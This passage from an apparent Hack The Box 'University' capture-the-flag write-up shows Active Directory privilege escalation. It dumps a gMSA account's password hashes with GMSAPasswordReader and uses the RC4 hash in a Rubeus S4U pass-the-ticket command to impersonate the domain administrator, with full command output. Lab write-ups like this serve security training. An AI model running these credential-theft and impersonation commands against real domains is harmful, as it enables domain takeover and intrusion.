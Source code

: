 ![](/assets/images/writeups/university/BH.png)

Drop `GMSAPasswordReader.exe`, tell it to target "GMSA-PClient01$", and it hands over every hash flavor — RC4, AES128, AES256, DES. The RC4 hash is all we need for the next step.

```console
PS C:\tmp> .\GMSAPasswordReader.exe --AccountName "GMSA-PCLIENT01$"
Calculating hashes for Old Value
[*] Input username             : GMSA-PClient01$
[*] Input domain               : UNIVERSITY.HTB
[*] Salt                       : UNIVERSITY.HTBGMSA-PClient01$
[*]       rc4_hmac             : FD089A6CE20FD923CDE921AB727081F7
[*]       aes128_cts_hmac_sha1 : 8D212E250E2F93327E6BFFFB1F6B84FF
[*]       aes256_cts_hmac_sha1 : D54377CF68DFFED662689735661C22EA34D8DDCD630A93B0A566A64950C67C3D
[*]       des_cbc_md5          : 15E515D5CE9D0D7C

Calculating hashes for Current Value
[*] Input username             : GMSA-PClient01$
[*] Input domain               : UNIVERSITY.HTB
[*] Salt                       : UNIVERSITY.HTBGMSA-PClient01$
[*]       rc4_hmac             : 0D333F335FDA7915C9B62D37056351C6
[*]       aes128_cts_hmac_sha1 : B2292EB7C52C682DCDF4C7F36E339461
[*]       aes256_cts_hmac_sha1 : E671040580E4C9A3924F32527A231D0A640F9B02612A768DECC6111F3BA7100F
[*]       des_cbc_md5          : FB7F0DF2EACE5E76
```

Since `GMSA-PClient01$` is `AllowedToAct` on the DC, we use Rubeus S4U to impersonate the administrator, requesting a service ticket for CIFS and WinRM on the DC. We inject that ticket, klist again, and it straight up says `Client: administrator @ UNIVERSITY.HTB`. Thats root baby!

```console
PS C:\tmp> .\Rubeus.exe s4u /user:GMSA-PCLIENT01$ /rc4:0D333F335FDA7915C9B62D37056351C6 /impersonateuser:administrator /msdsspn:cifs/DC.university.htb /altservice:winrm /ptt

PS C:\tmp> klist

Current LogonId is 0:0x3e7
Cached Tickets: (1)

#0> Client: administrator @ UNIVERSITY.HTB
    Server: cifs/DC.university.htb @ UNIVERSITY.HTB
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
    Start Time: 12/23/2024 11:38:39 (local)
    End Time:   12/23/2024 21:38:37 (local)
    Renew Time: 12/30/2024 11:38:37 (local)
    Session Key Type: AES-128-CTS-HMAC-SHA1-96
```